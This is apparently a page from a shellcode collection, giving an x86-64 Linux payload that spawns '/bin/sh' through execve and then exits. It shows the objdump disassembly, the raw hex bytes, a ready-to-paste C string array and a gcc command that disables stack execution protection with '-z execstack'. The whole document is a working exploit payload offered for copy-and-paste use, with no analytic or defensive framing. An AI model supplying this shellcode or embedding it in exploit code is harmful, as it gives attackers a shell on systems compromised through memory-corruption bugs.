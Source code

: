 # objdump of the text section

shellcode:     file format elf64-x86-64  


Disassembly of section .text:  
```
0000000000401000 <_start>:  
  401000:	6a 3b                	push   $0x3b  
  401002:	58                   	pop    %rax  
  401003:	48 31 d2             	xor    %rdx,%rdx  
  401006:	48 bb 2f 2f 62 69 6e 	movabs $0x68732f6e69622f2f,%rbx  
  40100d:	2f 73 68   
  401010:	48 c1 eb 08          	shr    $0x8,%rbx  
  401014:	53                   	push   %rbx  
  401015:	54                   	push   %rsp  
  401016:	5f                   	pop    %rdi  
  401017:	52                   	push   %rdx  
  401018:	57                   	push   %rdi  
  401019:	54                   	push   %rsp  
  40101a:	5e                   	pop    %rsi  
  40101b:	0f 05                	syscall   
  40101d:	6a 3c                	push   $0x3c  
  40101f:	58                   	pop    %rax  
  401020:	48 31 ff             	xor    %rdi,%rdi  
  401023:	0f 05                	syscall   
```
# ShellCode in hexa

6a 3b 58 48 31 d2 48 bb
2f 2f 62 69 6e 2f 73 68
48 c1 eb 08 53 54 5f 52
57 54 5e 0f 05 6a 3c 58
48 31 ff 0f 05 

# Easy copy/paste to use in C
```
"\x6A\x3B\x58\x48\x31\xD2\x48"
"\xBB\x2F\x2F\x62\x69\x6E\x2F"
"\x73\x68\x48\xC1\xEB\x08\x53"
"\x54\x5F\x52\x57\x54\x5E\x0F"
"\x05\x6A\x3C\x58\x48\x31\xFF\x0F\x05"
```
to compile : `gcc -z execstack exec.c`
> -z execstack allowing to execute instructions stored in the stack
